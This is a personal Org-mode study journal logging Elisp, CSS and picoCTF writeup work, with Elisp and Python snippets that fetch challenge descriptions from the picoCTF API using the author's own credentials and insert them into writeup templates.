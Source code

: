 #+property: header-args :eval no :noweb no

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

# Usar `webdev' template (yas).

* [2025-10-30 Thu]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

- Studied Elisp, 2h.
- Webdev, 1h, 3 exercises.
- CTF writeup: studied dynamic linking, PLT/GOT.

** Output
# Tangible things that exist because of today’s work.
# The tangible artifact you produced. This is your deliverable, whatever someone could use or look at.
# Scripts, writeups, data, visualizations, prototypes.
# If nothing usable yet, write “Prototype / Draft.”
# Examples:
# “Working Python script” or “Documented step-by-step writeup” or even “Updated CSV dataset.”
# Cleaned Python script that logs in and fetches challenge info.
# Sample JSON file saved locally for testing.

This are the exercises I did today.
- Upper-left: how it started
- Upper-right: my solution
- Lower-right: desired outcome


[[file:images/2025-10-30-112212_1920x1080_scrot.png]]

[[file:images/2025-10-30-112403_1920x1080_scrot.png]]

[[file:images/2025-10-30-112550_1920x1080_scrot.png]]

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

- In Elisp, the material I am using to study is for beginners.
  But I am not confident about skipping content.
  Practicing that.
  Skipped the exercises, though.
  Feel like it went faster than yesterday.
  Today's chapter is way longer than yesterday's, so I couldn't finish it.


- In webdev, I liked doing today's exercises.
  I resisted a lot, but publishing the before/after really made it /real/ for me.
  Good habit to cultivate.


- In the CTF writeups, I had to study some new concepts involving /dynamically linked/ binaries, as is the case of the binary for current writeup.
  These are completely new concepts to me, and I am very excited to learn about them.
  There are several security implications involving dynamic linkage, and the current writeup touches on some of them.
  I've got to a specially /dense/ point at the end of today's study session.
  I'm using basically ChatGPT as source, but this may not be optimal; willing to experiment with more sources.

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Elisp: 1h was good again, keep that.
- Webdev: be more pragmatic, try to finish the assignments faster without compromising learning.
- CTF writeups: try another sources for dynamic linking.

** Seinfeld Checkmark
# (my-copy-seinfeld-jpeg-filename-to-clipboard)

[[file:images/2025-10-30_seinfeld.jpeg]]

- Today's Scores
  - Fun: 4.5/5 (new, important concepts are fun!) 
  - Energy: 4.5/5 (dried meat back to the menu)

* [2025-10-29 Wed]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

More variety today, including /webdev/ proper!

- Studied Elisp in the morning, 1h.
- Webdev studies, also 1h.
- A bit of blogging CTF writeups in the morning, a lot in the evening.

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

- In Elisp, today's chapter was about the basics of function calls, clarifying that Elisp deals with /text/ editing a lot, thus the /theme/ of the code around that.
  In this case, the examples were about /buffer/---size and positioning/navigation within---, and /point/.
- In Webdev, continuing with CSS, this time the /Flex/ Model.
  Great improvements over The Box Model.
  But the Grid is the way to go.
  Still some time until we get there.
  Again, lots of confusing rules and exceptions.
  I gave up trying to aprehend those: will focus on the /results/: get the final product to look as intended.
  I see no point in trying to make sense of this much confusion when my goal is not implement a web client, nor contribute with the specifications.
- In the CTF Writeups, in the morning I went out for a long walk, thought a lot about how I would like to have the writeups.
  I want it to be /real/.
  The idea is to /backtrack/ the solution: start with TL;DR, and give the solution right away.
  Then trace the steps back with an investigation of /why/ that solution worked.
  This way
  - It is more realistic, as the solutions often happen after trying out a lot of ideas: it is not /planned/, so it is not realistic to think that the person (me) who solved the challenge knew all that to begin with.
  - The reader may stop as soon as they are satisfied with the depth, starting from just the solution and no depth at all, and going all the way to the core of the /why/ the solution worked in the first place.
  In the evening worked on integrating ChatGPT's critique.
  It was much more difficult that I thought.
  - I had to learn a lot of new ~gdb~ commands
  - Apparently ChatGPT was wrong (I believe, will check tomorrow) about the reason why the segfault occurred.
    This made my life a little more difficult, as I had to investigate other possible reasons.
    It was a slow process, and I thought about just giving up and finishing the post as it is (which would not be the end of the world, as it is reasonably deep).
    But I want to learn it myself!
    These are the foundations of Binary Exploitation, and skipping it will just hinder my progress moving forward.
    But I'm tired!

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Continue with Elisp and Webdev studies, try 1h again each, as it worked well today.
- CTF Writeup: this time work alongside ChatGPT on the solution.

** Seinfeld Checkmark
# (my-copy-seinfeld-jpeg-filename-to-clipboard)

[[file:images/2025-10-29_seinfeld.jpeg]]

- Today's Scores
  - Fun: 4/5 (meeting me where I was at: go for a walk and think; prioritize my /vision/ and /skill building/ instead of just public output.
  - Energy: 4/5 getting energized!

* [2025-10-28 Tue]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

- Spent the morning studying Elisp fundamentals;
- Spent the evening writing a new CTF writeup.

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

The Elisp study started as a necessity: I was feeling my mind was "heavy", and thought it was weak foundations (lots of very important doubts and uncertainties accumulated).
I could finish the first phase of the text, which are the most dense.
It turned out to be very helpful, could better understand a lot of concepts, and close some conceptual gaps.
Coding should get much more productive and fun now!

The writeup was fun!
But it was tricky: I kept trying to add more and more, polish, and so on...
It was infinite!
Then I focused on some key aspects:

1. Show the solution;
2. Convey the /mindset/ necessary for the solution when possible;
3. Teach the use of tools, and show some useful tricks;
4. Explain the steps in detail, but keep it light, give pointers;


I also added a lot of material after showing the solution.
Something very interesting happened: a severe security breach that was not in the scope of that particular challenge.
I explored that a little.
Then I was ready to post, but asked ChatGPT for some critique.
Well, if he had some!
And they were good: /I/ could learn a lot!
I'll work on that tomorrow, so no output for today, unfortunately!

I put the development on hold for today, but took notes of things to improve; and there are already some!

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Integrate ChatGPT's critique on the blog post.
- Continue with the Elisp studies (but less time, focus on writeups).

** Seinfeld Checkmark
# (my-copy-seinfeld-jpeg-filename-to-clipboard)

[[file:images/2025-10-28_seinfeld.jpeg]]

- Today's Scores
  - Fun: 4/5 (CTFs are fun!)
  - Energy: 3/5 (recovered, but not 100% yet)

* [2025-10-27 Mon]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

I was feeling sick today, and very tired.
But could get some small victories!

- The dev work had gotten to a point where my mind couldn't aprehend it anymore---model bigger that brain.
  I thought of either studying theory or restarting the program from scratch---greats say wonders about this.
  But after staring---literally---at the code for a while, thinking a bit, I ended up doing some refactoring, and could even get some new work done.
- I was really annoyed by the fact that I still had to type in the title and tags.
  Despite the fear of rabbit-holing, I gave a tiny little peek at the page, and ended up realizing the solution is much easier than I thought: I just need another request for a different URL.
  This inpired the refactoring of the fetching code (credentials, login, and download).
- Added internal HTML parsing to avoid the need to call an external Python script for that.
  Also added the use of tempfiles.
- The way I was doing Literate Programming ended up hiding some dirt: there was some repetition of code.
  I cleaned that up with some new function.s
  
** Output
# Tangible things that exist because of today’s work.
# The tangible artifact you produced. This is your deliverable, whatever someone could use or look at.
# Scripts, writeups, data, visualizations, prototypes.
# If nothing usable yet, write “Prototype / Draft.”
# Examples:
# “Working Python script” or “Documented step-by-step writeup” or even “Updated CSV dataset.”
# Cleaned Python script that logs in and fetches challenge info.
# Sample JSON file saved locally for testing.

I'm particularly proud of this little snippet.
ChatGPT helped me with it, but it had a bug.
I was feeling particularly sick at that time.
But could manage to fix the bug, improve it a little bit, and integrate it to the code.

#+begin_src elisp :noweb no
(defun html-get-text (html)
  "Return text in HTML."
  (interactive "Mhtml: ")
  (with-temp-buffer
    (insert html)
    (let* ((dom (libxml-parse-html-region (point-min) (point-max)))
           (text (mapcar (lambda (a) (dom-text a))
                          (dom-by-tag dom 'p)))
           (text (string-join text " "))
           (text (split-string text nil t))
           (text (string-join text " ")))
      text)))
#+end_src

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

- Despite not being 100% I could still show up to the work.
  This small victory helps building habit and identity, and I am very proud of that.
- The analysis, mental work, and refactoring helped build a better mental model.
  This prevents tiredness and ultimately burn out, of which I have to be /very/ aware in order not to go there again!
- Refactoring is always high-adrenaline, and I tried to micro-test as often as I could.
  Ended up discovering some simple little tricks that are a big help to keep tests light to the brain.
- Avoiding the need to call an external Python script was a big win for today!
- Feeling /this/ tired today raised a big red flag!
  I really need to pay attention to ealy signs of low healthy routines.
  This time I believe it may be food.
  I've been eating a lot of /fresh/ liver lately (I usually eat it /dried/), and that stuff can get heavy on the body sometimes.

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Start the proper output.
  Finish the HTML parsing, put the dev on hold for a while, and restart the writeups.
  I want the system to start /producing/!
  This will also give me the opportunity to /test/ the current version.
  It is prepare for automatic diagnostics only for /executables/, which restricts the appropriate CTFs to Binary Exploitation and maybe some Reverse Engineering.
  But that' /more/ than OK :)

** Seinfeld Checkmark

[[file:images/2025-10-27_seinfeld.jpeg]]

- Today's Scores
  - Fun: 3/5 (feeling sick is no fun, but meeting me where I'm at, and showing up for that is; glad I allowed myself some light work today)
  - Energy: 2/5 (/very/ tired!)

* [2025-10-26 Sun]

** Work

*** Automated the credentials renewal
As the previous work included a lot of tests and back and forth with ChatGPT involving credentials, I had to renew those.
Instead of manually updating my local copies of those credentials, I used the opportunity to automate this process with code.
I had it all ready, only needed to integrate them.

*** Added automatic insertion of the metadata needed by Jekyll to create a blog post.

In order to post the CTF writeup, Jekyll needs some metadata that goes into the file header.
Here is an example:

#+begin_example
#+TITLE: buffer overflow 0 (picoCTF)—CTF Writeup
#+DATE: 2025-10-26 20:46
#+JEKYLL_LAYOUT: post
#+JEKYLL_CATEGORIES: "CTF Writeup"
#+JEKYLL_TAGS: binary-exploitation ctf writeup
#+end_example

Today I automated the insertion of this snippet.
I also discovered that /title/ and /tags/ somehow skip the current info gathering process.
As fixing this would involve too much of a detour, I added that to the TODO.

*** Implemented automatic download and diagnostics of the assets

This is *huge*!
The program now automatically downloads the assets, checks its type, and run the appropriate diagnostics for that type of file.
The writeup is populated with that data in a structured form.
This saves me a *lot* of time and mental energy when making the writeups!
But the automatic execution presented a bug: it sometimes gets confused with previous results.

** Outcome

- Usually, to update the login credentials automatically, you use a program that does that without a browser.
  But picoCTF added an additional level of security in the form of a Cloudfare challenge.
  To pass this challenge you /must/ use a browser.
  To do that automatically, I called Puppeteer, using  Node.js.
  This was new for me, and I'm glad to add that tool to the box!
- To deal with all the data flying around when inserting the challenge's info, I used two different types of lists: ~plist~ and ~alist~.
  They are new to me, and I'm still getting used to their quirks.
  One that tripped me at first was the difference between two types of creating a list: ~'(1 2 (+ 3 4))~ and ~(list 1 2 (+ 3 4))~.
  They have a subtle, but very important difference in evaluation: the first form does /not/ evaluate ~(+ 3 4)~ when creating the list.
  This got me by surprise, and it took me a while to understand what was happening when the code didn't act as I expected!
- The automatic download and diagnostics is the most important part of all this for me.
  It was where I learned a lot today too.
  Here I applied all the new knowledge about the lists and new functions I am learning in Elisp.
  One that I'm really interested is a function that maps functions to Org entities.
  This is potentially very powerful and useful, as I use Org a lot.
  This creates very interesting possibilities for future projects!

** Next

- Automatically fetch challenge's title and tags.
- Fix the automatic diagnostics of the assets.
- Put development on hold, and start making the writeups for tests.

# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

** Seinfeld Checkmark

[[file:images/2025-10-26_seinfeld.jpeg]]

* [2025-10-25 Sat]

** I created a program that automatically gets the CTF challenge info for me, so I don't have to type it.

Writeups are about to get much easier and funnier!
CTF writeups need a lot of context, and they sometimes come as a story, other times as just a question, but in any case, that must go into the writeup.
So far I was copying/pasting, and then cleaning up the text.
It was /very/ tedious!

Today I created a small program that automatically goes to the website and grabs that info and inserts it necely inside my editor, in a pre-chosen template.
The pictures below show the info on the website and the editor.

#+caption: Challenge info in the website and the editor.
[[file:images/2025-10-25-ctf-insert-info.jpeg]]

** Code

This is the code that makes the magic happens:

#+begin_src elisp :noweb no
;; TODO: Consider this division:
;; - ctf-fetch-json (or ctf-fetch-html)
;; - ctf-parse-info (or ctf-parse-html)
;; - ctf-insert-info
(defvar ctf-picoctf-user nil
  "Username to login on picoCTF.")
(defvar ctf-html-to-plain-command nil
  "Command to call when converting HTML to plain text.")
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  
  )
(defun ctf-info-from-id (id &optional user)
  "Retrives the challenge's info from the website using ID."
  (interactive "Mid: ")
  (require (quote auth-source))
  (let* ((user (or ctf-picoctf-user user))
         (results (car (auth-source-search :host "play.picoctf.org" :user user :max 1)))       
         (secret (plist-get results :secret))
         (password (if (functionp secret) (funcall secret) secret))
         (csrftoken (plist-get results :csrftoken))
         (cookie (plist-get results :cookie))
         ;; Get the challenge info and save it in JSON format in the file `/tmp/html.json'.
         (command (format "curl --output '/tmp/html.json' 'https://play.picoctf.org/api/challenges/%s/instance/' -H 'Cookie: %s'" id cookie)))
    (shell-command command))
  ;; TODO (ChatGPT critique): The ctf-html-to-plain-command bit feels brittle — if
  ;; the API returns HTML inside JSON, better to convert inside Emacs.  You can
  ;; strip tags using shr-render-region or libxml-parse-html-region. Then you’re
  ;; not shelling out to an external script unnecessarily.
  
  (shell-command ctf-html-to-plain-command)
  (with-temp-buffer
    (insert-file-contents "/tmp/plain.json")
    (let* ((json-string (buffer-substring-no-properties (point-min) (point-max)))
           (json-plist (json-parse-string json-string :object-type 'plist)))
      json-plist))
  ;; TODO: If that failed, get a new cookie and ask again
  )
;; TODO: Use `org-insert-link' for the links below.
(defun ctf-insert-info (id)
  "Insert the info from challenge ID into current buffer."
  (interactive "Mid: ")
  (let* ((info (ctf-info-from-id id))
         (description (plist-get info :description))
         (description-urls (seq-into (plist-get info :description_urls) 'list))
         (hints (seq-into (plist-get info :hints) 'list))
         (hints-urls (seq-into (plist-get info :hints_urls) 'list)))
    (insert "* Description\n")
    (insert (format "\n%s\n" description))
    (when hints
      (insert "\n* Hints\n")
      (dolist (hint hints)
        (insert (format "\n- %s\n" hint))))
    (when hints-urls
      (insert "\n* Hints URLs\n")
      (dolist (hints-url hints-urls)
        (insert (format "\n- [[%s]]\n" hints-url))))
    (when description-urls
      (insert "\n* Assets\n")
      (dolist (description-url description-urls)
        (insert (format "\n** [[%s]]\n" description-url))))))
(provide 'ctf-mode)

#+end_src

It calls this script:

#+begin_src python :noweb no
import json
from bs4 import BeautifulSoup

# Load JSON from file
with open("/tmp/html.json", "r", encoding="utf-8") as f:
    data = json.load(f)

def html_to_text_and_urls(html_content):
    """Convert HTML to plain text and extract all URLs."""
    soup = BeautifulSoup(html_content, "html.parser")
    text = soup.get_text(separator=" ", strip=True)
    links = [a["href"] for a in soup.find_all("a", href=True)]
    return text, links

# Process the description
desc_text, desc_urls = html_to_text_and_urls(data.get("description", ""))

# Process the hints (list of HTML strings)
plain_hints = []
all_hint_urls = []
for hint_html in data.get("hints", []):
    hint_text, hint_urls = html_to_text_and_urls(hint_html)
    plain_hints.append(hint_text)
    all_hint_urls.extend(hint_urls)

# Create clean version
out_data = {
    "id": data["id"],
    "status": data["status"],
    "description": desc_text,
    "description_urls": desc_urls,
    "hints": plain_hints,
    "hint_urls": all_hint_urls,
}

# Save cleaned JSON
with open("/tmp/plain.json", "w", encoding="utf-8") as f:
    json.dump(out_data, f, indent=2, ensure_ascii=False)

print("✅ Extracted plain text and URLs to /tmp/plain.json")
#+end_src

*** This is the literate programming version

#+property: header-args :results replace

**** This is the CTF minor mode.  I'll be using it to make CTF writeups.
Besides editing facilities, it also does some /challenge-solving/ of its own.
For example, after downloading a file, it looks at its type (as informed by the command ~file~), and potentially runs more commands, appropriate for that type of file.

[[file:ctf-mode.el][ctf-mode.el]] ≡

#+begin_src emacs-lisp :tangle ctf.el :noweb no
;; TODO: Consider this division:
;; - ctf-fetch-json (or ctf-fetch-html)
;; - ctf-parse-info (or ctf-parse-html)
;; - ctf-insert-info
<<Variable definitions>>
<<Define the minor mode>>
<<Function that gets the challenge info from an ID>>
<<Populate the writeup with the challenge info>>
(provide 'ctf-mode)
#+end_src

**** First, let's define it, add a nice lighter to it, and its own neat keymap.

~<<Define the minor mode>> +≡~

#+begin_src elisp :noweb-ref Define the minor mode :noweb no
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  <<Minor mode definition>>
  )
#+end_src

**** *Function that gets the challenge info from an ID.*  This process need authentication.  It first tries to use the credentials and cookie saved locally.  If that fails, it obtains a new cookie and tries again.

~<​<Function that gets the challenge info from an ID>> +≡​~

#+begin_src elisp :noweb-ref Function that gets the challenge info from an ID :noweb no
(defun ctf-info-from-id (id &optional user)
  "Retrives the challenge's info from the website using ID."
  (interactive "Mid: ")
  <<Ask for the info with the current cookie>>
  ;; TODO: If that failed, get a new cookie and ask again
  )
#+end_src

***** *Ask for the info with the current cookie.*  Grab the local credentials and cookie and ask picoCTF for the information (description, hints and links) of a challenge whose ID is ~id~.  If it succeeds, the info is saved as a JSON file.

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :results none :noweb no
(require (quote auth-source))
(let* ((user (or ctf-picoctf-user user))
       (results (car (auth-source-search :host "play.picoctf.org" :user user :max 1)))       
       (secret (plist-get results :secret))
       (password (if (functionp secret) (funcall secret) secret))
       (csrftoken (plist-get results :csrftoken))
       (cookie (plist-get results :cookie))
       ;; Get the challenge info and save it in JSON format in the file `/tmp/html.json'.
       (command (format "curl --output '/tmp/html.json' 'https://play.picoctf.org/api/challenges/%s/instance/' -H 'Cookie: %s'" id cookie)))
  (shell-command command))
#+end_src

~<​<Variable definitions>> +≡​~

#+begin_src elisp :noweb-ref Variable definitions :noweb no
(defvar ctf-picoctf-user nil
  "Username to login on picoCTF.")
#+end_src

***** *Create a Python script to extract the text and URLs from the JSON file we got.*  This file we just got will contain the challenge info, but in HTML, with the markup elements, like ~<p>...</p>~, ~<a href ...>...</a>~, etc.  We need to clean that up.  We use Python for that.  First we create the script, then we call it.  This script will create a new file called ~plain.json~ with the challenge's info ready to be inserted into the writeup.

3. JSON and shell handling

#+begin_src python :tangle html-to-plain.py :noweb no
import json
from bs4 import BeautifulSoup

# Load JSON from file
with open("/tmp/html.json", "r", encoding="utf-8") as f:
    data = json.load(f)

def html_to_text_and_urls(html_content):
    """Convert HTML to plain text and extract all URLs."""
    soup = BeautifulSoup(html_content, "html.parser")
    text = soup.get_text(separator=" ", strip=True)
    links = [a["href"] for a in soup.find_all("a", href=True)]
    return text, links

# Process the description
desc_text, desc_urls = html_to_text_and_urls(data.get("description", ""))

# Process the hints (list of HTML strings)
plain_hints = []
all_hint_urls = []
for hint_html in data.get("hints", []):
    hint_text, hint_urls = html_to_text_and_urls(hint_html)
    plain_hints.append(hint_text)
    all_hint_urls.extend(hint_urls)

# Create clean version
out_data = {
    "id": data["id"],
    "status": data["status"],
    "description": desc_text,
    "description_urls": desc_urls,
    "hints": plain_hints,
    "hint_urls": all_hint_urls,
}

# Save cleaned JSON
with open("/tmp/plain.json", "w", encoding="utf-8") as f:
    json.dump(out_data, f, indent=2, ensure_ascii=False)

print("✅ Extracted plain text and URLs to /tmp/plain.json")
#+end_src

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :noweb no
;; TODO (ChatGPT critique): The ctf-html-to-plain-command bit feels brittle — if
;; the API returns HTML inside JSON, better to convert inside Emacs.  You can
;; strip tags using shr-render-region or libxml-parse-html-region. Then you’re
;; not shelling out to an external script unnecessarily.

(shell-command ctf-html-to-plain-command)
#+end_src

~<​<Variable definitions>> +≡​~

#+begin_src elisp :noweb-ref Variable definitions :noweb no
(defvar ctf-html-to-plain-command nil
  "Command to call when converting HTML to plain text.")
#+end_src

***** Get the challeng info from ~plain.json~ and store it into a variable that the function will return

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :noweb no
(with-temp-buffer
  (insert-file-contents "/tmp/plain.json")
  (let* ((json-string (buffer-substring-no-properties (point-min) (point-max)))
         (json-plist (json-parse-string json-string :object-type 'plist)))
    json-plist))
#+end_src

**** *Populate the writeup with the challenge info.*

Use the extracted, clean info to populate the writeup.

~<​<Populate the writeup with the challenge info>> +≡​~

#+begin_src elisp :noweb-ref Populate the writeup with the challenge info :noweb no
;; TODO: Use `org-insert-link' for the links below.
(defun ctf-insert-info (id)
  "Insert the info from challenge ID into current buffer."
  (interactive "Mid: ")
  (let* ((info (ctf-info-from-id id))
         (description (plist-get info :description))
         (description-urls (seq-into (plist-get info :description_urls) 'list))
         (hints (seq-into (plist-get info :hints) 'list))
         (hints-urls (seq-into (plist-get info :hints_urls) 'list)))
    (insert "* Description\n")
    (insert (format "\n%s\n" description))
    (when hints
      (insert "\n* Hints\n")
      (dolist (hint hints)
        (insert (format "\n- %s\n" hint))))
    (when hints-urls
      (insert "\n* Hints URLs\n")
      (dolist (hints-url hints-urls)
        (insert (format "\n- [[%s]]\n" hints-url))))
    (when description-urls
      (insert "\n* Assets\n")
      (dolist (description-url description-urls)
        (insert (format "\n** [[%s]]\n" description-url))))))
#+end_src

** Outcome

The process of making CTF writeups just got /much/ easier---and /enjoyable/!
Instead of wasting mental energy on tedious tasks, I can focus on injecting precise, useful information.
It also helps on /adding/ the information: most of the time it may feel like it's not worth the effort, but having that information at hand while reading the writeup makes a /huge/ difference: many times the path towards a solution depends on some subtle information in the description!

** Next steps

As you can see, there are already a lot explicit of TODOs.
But what will make a *HUGE* impact is to /automatically/
1. Download each asset;
2. Detect its file type;
3. Automatically run the appropriate diagnostics based on that type.


In the CTFs, they are files that must be inspected /very/ closely, and in /multiple/ ways.
This investigative work involves running a /lot/ of commands!
Automating this not only saves physical and mental energy, but also avoids forgetting to run important diagnostics.
I have most of the code for that ready, just need to integrate it.

Also, I want to:
- Update the local cookie when it expires.
  This involves authentication in *two stages*:
  1. Pass a Cloudfare challenge and get a key.  For this, I'll use Puppeteer in headless mode.
  2. Authenticate with that key, user and password, obtaining a new cookie.


I already have the functioning code for those two, now I just need to integrate it on the current code.

** Seinfeld Checkmark

[[file:images/2025-10-25_seinfeld.jpeg]]

* [2025-10-24 Fri]

** Sharpening the axe (still)

Working on tools (to make tools (...)) I came upon what could be called a semi-realization: it is also about commitment.
When preparing Emacs to edit blog posts, there are always some "shortcuts" along the way---sub-optimal or not-so-best-practices forks in the path.
It's somewhat tempting to take those shortcuts, especially when you are not /doing the thing/, but still /preparing to do the thing/.
But if one is in it for the long run, it pays off to pause, learn how to do stuff properly, think, organize, and implement.
Today was that day for me.

It all started with Yasnippets, that helps with abbreviations: when I type ~autotangle~, for instance, it expands to

#+begin_src shell :eval no :noweb no
#-*- auto-fill-function: nil; eval: (add-hook 'after-save-hook (lambda () (org-babel-tangle) (load "/home/rafa/dev/webdev-study/README")) nil t); -*-
#+end_src

which tells Emacs to take what I just write, plus everything else in the buffer, /tangle/ it to the proper file, and listen to all that that file has to say.
Very nice.

30 minutes later I realized I was doing this for a lot of files, and those files were in the same directory.
The Proper® way to do that became then to use a /directory local variable/.
I had to go to the manual, remember how to do it, and iterate until it was done.
Can't say I didn't have fun, though.

Then my tug-of-war with Org and its colors for the fonts got a new episode today.
The proper solution was to create a /minor-mode/, that has its own colors, just the way I like it, and Org doesn't have a say on it.
The next section is all theirs.

** A mode as a weapon

~noweb.el~

#+begin_src elisp :tangle no :noweb no
(defvar noweb-mode-map (make-sparse-keymap))

(define-minor-mode  noweb-mode
  "Minor mode for noweb hacking."
  :global nil
  :init-value nil
  :lighter " Noweb"
  :keymap noweb-mode-map

  (set (make-local-variable 'comment-start) "#")

  <<Resolve faces when enabling/disabling the mode>>)
<<font-lock stuff>>
<<functions>>
(add-hook 'org-mode-hook 'noweb-mode)
#+end_src

# Can't tangle this because it contains `<<', and this upsets Org-babel's noweb
# engine.
#+begin_src elisp :tangle no :noweb no
(defun noweb-fix-function-thingy-buffer-wide ()
  "Adds some ZERO WIDTH SPACE to avoid font-lock conflicts with Org."
  (interactive)
  (save-excursion
    (goto-char (point-min))
    (while (re-search-forward "~<<\\(.*?\\)>> \\+≡~" nil t)
      (replace-match (format "~<%s<\\1>> +≡%s~" "​" "​") t))))
#+end_src

*** Faces

**** Create faces

~<​<font-lock stuff>> +≡​~

#+begin_src elisp :noweb-ref font-lock stuff :noweb no
(defface noweb-module-name-face
  '((t (:foreground "green")))
